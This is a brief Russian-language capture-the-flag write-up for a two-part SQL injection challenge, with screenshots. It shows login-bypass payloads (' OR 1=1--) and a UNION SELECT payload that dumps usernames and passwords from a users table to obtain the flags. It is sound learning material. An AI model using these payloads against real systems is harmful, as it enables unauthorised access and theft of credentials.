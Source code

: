 ## WriteUP
- Для начала посмотрим исходный код элемента, и увиди там подсказку.

<img width="328" alt="Снимок экрана 2024-09-16 в 15 33 11" src="https://github.com/user-attachments/assets/401016f7-f372-4607-ba6f-1a161ad77e14">

- Читаем про SQL injection и пробуем самый простой шаблон, поле пароля можно оставить пустым 
```
' OR 1=1--
или
admin' or 1=1--
```
<img width="1512" alt="Снимок экрана 2024-09-16 в 15 37 13" src="https://github.com/user-attachments/assets/0a739a19-92c1-45ec-9a57-d563079ee4a7">
# Part 2 
- Из условий ясно что есть второй флаг и та же инъекция, значит надо делать более сложный запрос. Из первой части понятно что полей выводится 2 и второе это не пароль и это сильно помогает нам. Составим UNION запрос 

```
' UNION SELECT username, password FROM users--
```
<img width="1512" alt="Снимок экрана 2024-09-16 в 15 40 15" src="https://github.com/user-attachments/assets/69bc9dc4-2417-49a7-b564-3d8c63bbd3fb">
-А вот и флаг
